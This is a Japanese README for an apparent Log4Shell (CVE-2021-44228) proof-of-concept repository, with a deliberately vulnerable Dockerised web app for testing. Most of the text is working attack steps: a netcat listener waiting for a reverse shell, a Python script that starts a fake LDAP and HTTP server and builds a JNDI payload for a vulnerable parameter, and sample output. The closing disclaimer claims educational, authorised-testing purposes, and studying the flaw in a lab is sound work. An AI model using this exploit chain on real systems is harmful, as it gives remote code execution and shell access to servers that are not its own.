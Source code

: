 CVE-2021-44228に対するPoC。  
最近、ElasticSearchや Minecraftなどで広く使われている Javaのロギングライブラリlog4jに新たな脆弱性が発見されました。

このリポジトリでは、脆弱性のあるアプリケーションの例と、その脆弱性を利用したPoCの例を作成しています。

概念実証(PoC)
----------------------

PoCとして、プロセスを自動化するPythonファイルを作成しました。


```bash
pip install -r requirements.txt
```


* netcatリスナーを起動して、リバースシェル接続を受け入れます。<br>
```py
nc -lvnp 9001
```
* エクスプロイトを起動します。 <br>
**Note:** この作業を行うには、解凍したjavaアーカイブの名前が `jdk1.8.0_20` であり、同じディレクトリにある必要があります。
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/NT25-CTF/log4j-shell-poc-ja

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send Exploit Code Port:1389

Listening on 0.0.0.0:1389
```

このスクリプトは、HTTPサーバーとLDAPサーバーをセットアップし、脆弱なパラメーターに貼り付けるために使用できるペイロードも作成します。 この後、すべてがうまくいけば、lportにシェルを取得する必要があります。 

<br>


脆弱性が含まれるアプリケーション
--------------------------

脆弱なWebアプリケーションにDockerfileを追加しました。 これは、以下の手順に従って使用できます。 
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
実行すると、localhost:8080でアクセスできます。

プロジェクトをさらに開発したい場合は、プロジェクトの開発に使用したIntellijIDEを使用できます。 また、作業を少し簡単にする構成ファイルがある`.idea`フォルダーも含まれています。 おそらく他のIDEも使用できます。 



jdkバージョンの取得
--------------------------------------

Exploitを作成した時点では、どのバージョンのJavaが動作し、どのバージョンが動作しないのかがはっきりしなかったため、Java 8の最も古いバージョンの1つである`java-8u20`で動作させることにしました。

```
> https://drive.google.com/file/d/1r8F3X2e2pCN5Iar62yG4M0H8HuBK_4by/view?usp=sharing
```

アーカイブをダウンロードして解凍すると、`java` といくつかの関連するバイナリが `jdk1.8.0_20/bin` の中にあります。  
**注意：** 動作させるためには、このリポジトリにjdkフォルダを同名で展開するようにしてください。

```
> tar -xf jdk-8u20-linux-x64.tar.gz

> ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

免責事項
----------
このリポジトリは、CVE-2021-44228へのワンクリックエクスプロイトを目的としたものではありません。 このプロジェクトの目的は、人々がこの素晴らしい脆弱性について学び、おそらく自分のアプリケーションをテストするのを助けることです（ただし、この目的のためのより良いアプリケーションがあります。 [https://log4shell.tools/](https://log4shell.tools/))

私たちのチームは、悪意のある活動に対するこのエクスプロイトの使用を支援または推奨しません。したがって、支援を求める場合は、ターゲットサービスを所有しているか、ペネトレーションテストを行う権限があることを証明するものを提供する必要があります。
